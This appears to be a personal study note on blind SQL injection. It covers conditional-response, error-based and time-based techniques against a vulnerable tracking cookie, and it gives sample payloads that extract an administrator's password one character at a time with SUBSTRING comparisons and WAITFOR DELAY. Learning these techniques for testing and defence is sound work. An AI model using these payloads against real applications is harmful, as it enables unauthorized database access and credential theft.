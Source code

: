 ```yaml
---
Title: Blind SQLi
tags:
  - SQLi
  - BLINDSQL
---
```

Blind SQL is not necessarily being "blind", but rather looking at other intricacies the application returns whenever you inject a query. 

# Exploiting conditional responses

For example, we have this vulnerable cookie.
```
Cookie: TrackingId=abcdefghijklmnopqrstuvwxyz
```
> [!The query that the TrackingId uses ]
> ```sql
SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'abcdefghijklmnopqrstuvwxyz'

A successful query will return "Welcome!", and an unsuccessful one will return nothing. We can exploit this functionality by injecting arbitrary sql queries, and constantly checking if the query returns "Welcome!" or not.

> [!Example]
> ```sql
> SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'abcdefghijklmnopqrstuvwxyz' ' AND '1'='1
> -- above returns true
> SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'abcdefghijklmnopqrstuvwxyz' ' AND '1'='2
> -- above returns false

> [!Sample payload]
> ```sql
> -- SUBSTRING(string, position of the string, length of the string(usually 1))
> 
> xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 'm
> -- this function is as follows, where the first letter of the password of administrator is greater than m

# Exploiting Error-Based Condition
Error based sql is focused on error messages that a website returns, and exploiting that to extract sensitive data from the database.

> [!Example]
> ```sql
> xyz' AND (SELECT CASE WHEN (1=2) THEN 1/0 ELSE 'a' END)='a
> --- in simpler terms: if 1=2, execute 1/0 (1 divided by 0, which returns a database error), else, return 'a'
xyz' AND (SELECT CASE WHEN (1=1) THEN 1/0 ELSE 'a' END)='a

We can exploit these errors, just like we did in [[Blind SQLi]].
> [!Sample Payload]
> ```sql
> xyz' AND (SELECT CASE WHEN (Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') THEN 1/0 ELSE 'a' END FROM Users)='a
> --- If the condition is true, it should return an error, else, the condition will return true because of 'a' = 'a'

To further understand this, let's create the sample query:
> [!Sample query]
> ```sql
> SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'some-id-here'
> --- now let's say for example this is our payload
> --- '||(SELECT '' FROM dual)'
> --- it will appear on the query that will be executed like this
> SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'some-id-here'||(SELECT '' FROM dual)||'
> --- the inside parameter is like an eval, which returns the string ''.
> 

# Exploiting Time-Based Condition
Time-based sqli is using the delay functionality of sql, which we can exploit, together with the techniques we already used.

> [!Example]
> ```sql
> '; IF (1=2) WAITFOR DELAY '0:0:10'--
> -- if the response is true, it will trigger a 10 second delay before sending a response
'; IF (1=1) WAITFOR DELAY '0:0:10'--

> [!Sample payload]
> ```sql
> '; IF (SELECT COUNT(Username) FROM Users WHERE Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') = 1 WAITFOR DELAY '0:0:{delay}'--

